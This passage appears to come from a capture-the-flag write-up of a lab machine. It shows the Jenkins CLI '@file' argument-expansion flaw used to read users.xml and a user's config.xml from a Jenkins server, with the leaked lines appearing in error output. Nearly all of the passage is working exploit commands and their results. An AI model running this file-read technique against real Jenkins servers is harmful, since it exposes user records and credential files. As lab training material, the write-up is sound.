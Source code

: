 ```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
<?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
      <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such item ‘  <idToDirectoryNameMap class="concurrent-hash-map">’ exists.
    <entry>: No such item ‘    <entry>’ exists.
      <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
  <version>1</version>: No such item ‘  <version>1</version>’ exists.
</hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
  </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
<hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
    </entry>: No such item ‘    </entry>’ exists.

ERROR: Error occurred while performing this command, see previous stderr output.

```

Still, I can see a user “jennifer\_12108429903186576833”, which matches the jennifer user on the site [above](#site). That is a directory name and in it will be a `config.xml`:

```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such item ‘    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">’ exists.
    <hudson.search.UserSearchProperty>: No such item ‘    <hudson.search.UserSearchProperty>’ exists.
      <roles>: No such item ‘      <roles>’ exists.
    <jenkins.security.seed.UserSeedProperty>: No such item ‘    <jenkins.security.seed.UserSeedProperty>’ exists.
      </tokenStore>: No such item ‘      </tokenStore>’ exists.
    </hudson.search.UserSearchProperty>: No such item ‘    </hudson.search.UserSearchProperty>’ exists.
      <timeZoneName></timeZoneName>: No such item ‘      <timeZoneName></timeZoneName>’ exists.
  <properties>: No such item ‘  <properties>’ exists.
    <jenkins.security.LastGrantedAuthoritiesProperty>: No such item ‘    <jenkins.security.LastGrantedAuthoritiesProperty>’ exists.
      <flags/>: No such item ‘      <flags/>’ exists.
    <hudson.model.MyViewsProperty>: No such item ‘    <hudson.model.MyViewsProperty>’ exists.
</user>: No such item ‘</user>’ exists.
    </jenkins.security.ApiTokenProperty>: No such item ‘    </jenkins.security.ApiTokenProperty>’ exists.
      <views>: No such item ‘      <views>’ exists.
        <string>authenticated</string>: No such item ‘        <string>authenticated</string>’ exists.
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">: No such item ‘    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">’ exists.
<user>: No such item ‘<user>’ exists.
          <name>all</name>: No such item ‘          <name>all</name>’ exists.
  <description></description>: No such item ‘  <description></description>’ exists.
      <emailAddress>jennifer@builder.htb</emailAddress>: No such item ‘      <emailAddress>jennifer@builder.htb</emailAddress>’ exists.
      <collapsed/>: No such item ‘      <collapsed/>’ exists.
    </jenkins.security.seed.UserSeedProperty>: No such item ‘    </jenkins.security.seed.UserSeedProperty>’ exists.
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>: No such item ‘    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>’ exists.
    </hudson.model.MyViewsProperty>: No such item ‘    </hudson.model.MyViewsProperty>’ exists.
```